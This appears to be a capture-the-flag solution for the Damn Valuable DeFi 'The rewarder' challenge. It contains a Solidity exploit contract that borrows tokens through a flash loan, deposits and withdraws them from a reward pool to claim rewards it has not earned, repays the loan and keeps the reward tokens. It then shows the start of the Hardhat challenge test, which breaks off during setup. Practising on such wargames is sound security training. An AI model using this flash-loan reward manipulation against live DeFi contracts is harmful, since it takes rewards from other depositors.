 ## Solve

``` solidity
pragma solidity ^0.8.0;

import "./FlashLoanerPool.sol";
import "./RewardToken.sol";
import "./TheRewarderPool.sol";
import "../DamnValuableToken.sol";

contract Exploit {
    TheRewarderPool public theRewarderPool;
    FlashLoanerPool public flashLoanerPool;
    RewardToken public rewardToken;
    DamnValuableToken public liquidityToken;

    constructor(address _theRewarderPoolContract, address _flashLoanerPoolContract, address _rewardTokenContract, address _liquidityTokenContract) {
        theRewarderPool = TheRewarderPool(_theRewarderPoolContract);
        flashLoanerPool = FlashLoanerPool(_flashLoanerPoolContract);
        rewardToken = RewardToken(_rewardTokenContract);
        liquidityToken = DamnValuableToken(_liquidityTokenContract);
    }
    
    function receiveFlashLoan(uint256 amount) external {
        liquidityToken.approve(address(theRewarderPool), amount);
        theRewarderPool.deposit(amount);
        theRewarderPool.withdraw(amount);
        liquidityToken.transfer(msg.sender, amount);
    }

    function _exploit(uint256 amount) external {
        flashLoanerPool.flashLoan(amount);
        rewardToken.transfer(msg.sender, rewardToken.balanceOf(address(this)));
    }

} 
```

``` tsx
const { ethers } = require('hardhat');
const { expect } = require('chai');

describe('[Challenge] The rewarder', function () {

    let deployer, alice, bob, charlie, david, attacker;
    let users;

    const TOKENS_IN_LENDER_POOL = ethers.utils.parseEther('1000000'); // 1 million tokens

    before(async function () {
        /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */

        [deployer, alice, bob, charlie, david, attacker] = await ethers.getSigners();
        users = [alice, bob, charlie, david];

        const FlashLoanerPoolFactory = await ethers.getContractFactory('FlashLoanerPool', deployer);
        const TheRewarderPoolFactory = await ethers.getContractFactory('TheRewarderPool', deployer);
        const DamnValuableTokenFactory = await ethers.getContractFactory('DamnValuableToken', deployer);
        const RewardTokenFactory = await ethers.getContractFactory('RewardToken', deployer);
```